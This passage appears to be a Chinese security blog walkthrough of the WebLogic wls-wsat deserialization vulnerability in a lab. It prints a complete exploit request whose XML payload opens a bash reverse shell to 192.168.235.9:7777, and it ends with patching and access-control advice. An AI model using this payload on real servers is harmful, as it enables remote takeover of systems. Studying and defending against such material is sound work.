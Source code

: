 出现下面这个页面则说明存在漏洞  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVE1gQGHWDsIT74ZtAzCuELrWBrCSos8G3tLMz1XNsSUfsQicVqNh3H64A/640?wx_fmt=png&from=appmsg "")  
  
利用漏洞反弹 shell，  
开启端口监听  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVEwibxsSTaic6AicMQvmYcibfcj1lxu9FiaO8TIgu8KKgk7sVZ3oibgn91gIsg/640?wx_fmt=png&from=appmsg "")  
```
POST /wls-wsat/CoordinatorPortType11 HTTP/1.1
Host: 192.168.111.128: 7001
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: text/xml
Content-Length: 824

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
      <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
          <java>
            <object class="java.lang.ProcessBuilder">
              <array class="java.lang.String" length="3">
                <void index="0">
                  <string>/bin/bash</string>
                </void>
<void index="1">
                  <string>-c</string>
                </void>
<void index="2">
 <string>bash -i &gt;&amp; /dev/tcp/192.168.235.9/7777 0&gt;&amp;1</string>
                </void>
              </array>
              <void method="start"/>
            </object>
          </java>
        </work:WorkContext>
      </soapenv:Header>
      <soapenv:Body/>
    </soapenv:Envelope>
```  
  
成功接收到Shell  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVE2oibCNrfRicLSBtuyGxzrHdfqsOyflzoZIkJPKANw6ZYRFXPmNdtGA5Q/640?wx_fmt=png&from=appmsg "")  
  
  
**修复建议**  
```
更新到最新版本,打上10271的补丁,对访问wls-wsat的资源进行访问控制 ,或者根据业务所有需求，考虑是否删除WLS-WebServices组件。包含此组件路径为：
Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/wls-wsat
Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/wls-wsat.war
Middleware/wlserver_10.3/server/lib/wls-wsat.war
```  
  
  
如果想要及时了解更多内容，请关注   
Cyb3rES3c  
 微信公众号！  
  
  
  
  
